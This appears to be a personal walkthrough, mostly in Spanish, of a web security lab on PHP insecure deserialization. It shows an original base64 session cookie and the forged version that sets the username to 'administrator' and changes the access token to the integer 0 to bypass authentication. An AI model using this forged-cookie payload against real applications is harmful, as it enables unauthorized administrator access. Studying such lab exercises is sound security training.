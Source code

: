 ![[Pasted image 20220924204432.png]]

para este caso se recomienda utilizar el plugin Hackvertor

![[Pasted image 20220924204949.png]]

![[Pasted image 20220924205013.png]]

Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlbDZ5YmpldHJpYWlvd3R2NDR5djdwZ2hzOWJ1ZDNjMSI7fQ%3d%3d

envio al repeater el GET My Account:

![[Pasted image 20220924205219.png]]

![[Pasted image 20220924205313.png]]

esto seran los cambios en la cookie:

-   Update the length of the `username` attribute to `13`.
-   Change the username to `administrator`.
-   Change the access token to the integer `0`. As this is no longer a string, you also need to remove the double-quotes surrounding the value.
-   Update the data type label for the access token by replacing `s` with `i`.

The result should look like this:

`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`

![[Pasted image 20220924205416.png]]

Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9

![[Pasted image 20220924205504.png]]

hago el cambio en el browser:

![[Pasted image 20220924205547.png]]

![[Pasted image 20220924205613.png]]
